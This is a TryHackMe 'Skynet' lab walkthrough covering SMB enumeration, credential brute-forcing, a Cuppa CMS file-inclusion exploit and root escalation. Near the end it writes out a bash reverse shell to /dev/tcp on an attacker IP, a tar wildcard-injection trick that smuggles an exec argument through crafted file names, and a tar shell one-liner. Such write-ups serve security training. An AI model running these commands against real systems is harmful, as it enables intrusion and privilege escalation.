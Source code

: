 Here I'm sharing how i attacked the Skynet machine on TryHackMe.

Starting with an Nmap scan;
![skynetnmap](https://user-images.githubusercontent.com/64267672/131534547-948ef292-5386-4865-88d1-f21cecf6a2c5.png)


Taking a look at port 80;
![skynetweb](https://user-images.githubusercontent.com/64267672/131535132-4b79e27f-47d7-456a-8c73-2d4ef12ebc8a.png)


Now bruteforcing directories;
![skynetdir](https://user-images.githubusercontent.com/64267672/131537119-0e36a97e-bb47-44cf-82db-42bebd221aab.png)


We find a login page upon visiting  /squirrelmail
![skynetsnquilelmail](https://user-images.githubusercontent.com/64267672/131537439-932cf147-df39-4a19-99bf-53adf86422cb.png)

Going back to the nmap scan results so i started digging frrom port 445 (smb)
![skynetsmbclient](https://user-images.githubusercontent.com/64267672/131537902-15877751-3b3c-4430-9a07-6fa5c6c18fd9.png)


we can download the juicy files from smb to our local machine, 
Now reading attention.txt exposes potential username & log1.txt has a list of potential passwords mmmm;

![skynetpotential](https://user-images.githubusercontent.com/64267672/131538383-2a9c392f-99ed-42bb-8701-ed0e6a03f1fb.png)


Now bruteforcing with burpsuite intruder & we have valid creds
![skynetpasssmb](https://user-images.githubusercontent.com/64267672/131538658-9fa9b54c-6b15-4f9a-90f4-964e438c2014.png)

we can go back to the login page on port 80 & login with the valid creds we've found

Looks like we have access to the email account & we can find just 3 email conversations
Reading one from skynet@skynet reveals some info

![skynetemail](https://user-images.githubusercontent.com/64267672/131539491-cc7ea41c-c046-4a39-a103-6388e161b3f0.png)

That's a password to "milesdyson" smb share & with that we get access to some other files

![skynetmilesdysonshare](https://user-images.githubusercontent.com/64267672/131539944-8b2bd4d2-fe22-43b4-b692-6ed45e8e57af.png)


we get & read the important.txt on his notes folder on smb which exposes a new directory;

![skynetimportant](https://user-images.githubusercontent.com/64267672/131540228-0bba366b-2ed4-40c7-a721-f137ce3c0fe8.png)

This is his personal page;

![skynetpersdir](https://user-images.githubusercontent.com/64267672/131540746-bfb1215e-def2-48a5-ad5b-a61f2e20d32e.png)

sadly we find nothing there so we have to do a directory bursting & found /administrator;

![skynetadmin](https://user-images.githubusercontent.com/64267672/131542783-3c388fbe-0086-4645-8d91-80c5d2225e9b.png)

We see it's running cupa cms. Now looking at google & we see some remote file inclusion vulnurability linked to cupa
reading on the vulnurability/exploit on exploit db & we can have an idia how to exploit;
Reading /etc/passwd 

![skynetetcpasswd](https://user-images.githubusercontent.com/64267672/131544006-9fa7c52e-0366-4a74-ae0f-e36856a41ca0.png)

We can try to inlude a reverse shell & use it to get shell access on web server.

![skynetwebshell](https://user-images.githubusercontent.com/64267672/131544693-f94c7949-b2f8-4160-8d13-21f59718fdbf.png)

Now we have shell & can read our user.txt in /home/milesdyson directory

![skynetuser](https://user-images.githubusercontent.com/64267672/131545024-3bd3b5ea-2f53-41ce-ba07-3d69a8d3e531.png)


Now we can go elevate our privilege to Root.

Looking at the /backups folder & we can read a backup.sh script

This compresses the entire /var/www/html directory with tar and saves the archive to miles’ home directory. The script is executed by root every minute:

Now creating a privileged reverse shell;


tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
$ printf '#!/bin/bash\nbash -i >& /dev/tcp/10.8.50.72/6666 0>&1' > /var/www/html/shell
$ chmod +x /var/www/html/shell
$ touch /var/www/html/--checkpoint=1
$ touch /var/www/html/--checkpoint-action=exec=bash\ shell
$ ./shell

![skynetuserbinbash](https://user-images.githubusercontent.com/64267672/131547330-7b682fda-2878-495c-86b9-a656fab4a295.png)


And we have root shell from listening on the revserse shell port & we can read root.txt;

![skynetrootshell](https://user-images.githubusercontent.com/64267672/131547713-2bf466c6-51d0-4b49-8a69-16aad2a0f7cc.png)


### REFRENCES

https://tryhackme.com/room/skynet

https://gtfobins.github.io/gtfobins/tar/

https://www.exploit-db.com/exploits/25971



